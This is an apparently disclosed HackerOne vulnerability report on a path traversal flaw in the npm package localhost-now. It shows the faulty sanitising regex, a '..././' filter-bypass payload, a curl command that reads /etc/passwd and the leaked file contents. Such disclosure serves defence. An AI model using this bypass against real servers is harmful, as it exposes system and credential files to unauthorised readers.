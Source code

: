 # [localhost-now] bypassing url filter which leads to read content of arbitrary file

## Report Details
- **Report ID**: 334837
- **URL**: https://hackerone.com/reports/334837
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-04-09T09:23:56.500Z
- **Disclosed**: 2018-05-30T13:05:21.202Z

## Reporter
- **Username**: dienpv
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi guys,
i can bypass url filter in localhost-now module.
It allows to read content of arbitrary files on the remote server.

# Module

**module name:** localhost-now
**version:** 1.0.2
**npm page:** https://www.npmjs.com/package/localhost-now

## Module Stats

26 downloads in the last week

## Vulnerability Description

Lack of file path sanitization by using the regex method causes that any file on the server might be read by malicious user
ex: input: url = ..././etc/passwd
when the url calls replace(/(\.\.[\/\\])+/g, '') and then ../ will be removed -> final result: url = ../etc/passwd. (same in windows for ```...\.\```)
```javascript
// /localhost-now/lib/app.js, line 17:
const file = url === '/' ? '/index.html' : url.replace(/(\.\.[\/\\])+/g, '')
```
## Steps To Reproduce:
- install ```localhost-now```:
```npm install localhost-now```
- run ```localhost-now``` in your directory

```
root@kali:/var/www/html/localhost-now/bin# nodejs localhost
Web Server started on localhost:1337
```
- execute following curl command (adjust number of ../ to reflect your system):

``` curl -v --path-as-is http://127.0.0.1:1337/..././..././..././..././..././etc/passwd ```
- look at result:

```
* Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 1337 (#0)
> GET /..././..././..././..././..././etc/passwd HTTP/1.1
> Host: 127.0.0.1:1337
> User-Agent: curl/7.50.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< content-type: text/
< Date: Mon, 09 Apr 2018 09:04:13 GMT
< Connection: keep-alive
< Content-Length: 2908
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```
thanks you

## Impact

This vulnerability might be used to read content of any file on the server

## Attachments
No attachments

